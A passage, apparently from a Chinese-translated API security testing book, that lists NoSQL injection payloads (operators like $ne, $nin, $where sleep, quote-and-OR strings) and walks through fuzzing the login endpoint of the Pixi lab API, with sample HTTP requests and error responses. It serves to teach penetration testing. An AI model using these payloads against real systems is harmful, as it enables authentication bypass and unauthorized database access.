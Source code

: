 1.  `{"$ne":-1}`

1.  `$nin`

1.  `{"$nin":1}`

1.  `{"$nin":[1]}`

1.  `|| '1'=='1`

1.  `//`

1.  `||'a'\\'a`

1.  `'||'1'=='1';//`

1.  `'/{}:`

1.  `'"\;{}`

1.  `'"\/$[].>`

1.  `{"$where": "sleep(1000)"}`

关于这些 NoSQL 元字符的说明：正如我们在第一章中提到的，`$gt`是 MongoDB NoSQL 查询操作符，用于选择大于给定值的文档。`$ne`查询操作符选择值不等于给定值的文档。`$nin`操作符是“not in”操作符，用于选择字段值不在指定数组中的文档。列表中的许多其他符号旨在导致详细的错误信息或其他有趣的行为，比如绕过认证或等待 10 秒。

任何异常的情况都应该促使你彻底测试数据库。当你发送 API 身份验证请求时，错误密码的一个可能响应如下所示，来自 Pixi API 集合：

```
HTTP/1.1 202 Accepted
X-Powered-By: Express
Content-Type: application/json; charset=utf-8

{"message":"sorry pal, invalid login"}
```

请注意，失败的响应包括状态码 202 Accepted，并带有失败的登录信息。使用特定符号模糊测试*/api/login*端点会导致详细的错误消息。例如，将有效负载`'"\;{}`作为密码参数发送，可能会导致以下 400 Bad Request 消息。

```
HTTP/1.1 400 Bad Request
X-Powered-By: Express
`--snip--`

SyntaxError: Unexpected token ; in JSON at position 54<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> [...]
```

不幸的是，错误信息并未指示所使用的数据库类型。然而，这个独特的响应确实表明，该请求在处理某些类型的用户输入时存在问题，这可能表明它可能容易受到注入攻击。这正是应该引起你注意并集中测试的响应。既然我们已经有了 NoSQL 负载列表，我们可以将攻击位置设置为密码，并使用我们的 NoSQL 字符串：

```
POST /login HTTP/1.1
Host: 192.168.195.132:8000
`--snip--`

user=hapi%40hacker.com&pass=**§Password1%21§**
```

由于我们已经在 Pixi 集合中保存了这个请求，让我们尝试使用 Postman 进行注入攻击。发送带有 NoSQL 模糊负载的各种请求会得到 202 Accepted 响应，正如在图 12-2 中看到的其他错误密码尝试。
